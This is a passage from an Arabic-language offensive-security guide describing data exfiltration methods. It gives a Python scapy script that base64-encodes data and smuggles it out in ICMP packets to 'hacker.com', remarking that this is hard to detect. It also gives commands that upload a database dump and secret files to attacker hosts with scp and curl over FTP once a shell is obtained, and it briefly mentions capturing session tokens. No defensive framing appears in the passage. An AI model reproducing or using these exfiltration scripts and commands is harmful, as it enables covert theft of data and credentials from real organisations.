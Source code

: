 ### 📌 النتيجة:
- الوصول إلى session tokens.
- تسجيل بيانات المستخدمين بدون تنفيذ مباشر.

---

## 🔍 المحاولة #3: استخدام ICMP (Ping) لاكتشاف البيانات

### ⚙️ الفكرة:
استخدام حزم ICMP (Ping) لنقل البيانات بطريقة مشفرة.

### 💥 الاستغلال باستخدام Python:

```python
from scapy.all import *
import base64

data = "secret_data_here"
encoded = base64.b64encode(data.encode())

for chunk in [encoded[i:i+50] for i in range(0, len(encoded), 50)]:
    send(IP(dst="hacker.com")/ICMP()/chunk)
```

### 📌 النتيجة:
- تمرير البيانات عبر أنظمة تسمح بـ ICMP.
- صعب الكشف عنه إلا باستخدام Sniffers متطورة.

---

## 🔍 المحاولة #4: استخدام FTP/SFTP/SSH للتحميل الخارجي

### ⚙️ الفكرة:
بمجرد الحصول على Shell، قم برفع الملفات عبر بروتوكولات آمنة.

### 💥 الاستغلال:

```bash
scp dump.sql hacker@remote-server:/home/hacker/
```

أو عبر FTP:

```bash
curl -T secret.txt ftp://attacker.com --user user:pass
```

### 📌 النتيجة:
- تصدير البيانات بسرعة وكفاءة.
- إذا كان هناك اتصال SSH أو FTP داخلي، يمكن استخدامه حتى لو لم يكن متاحًا من الخارج.

---
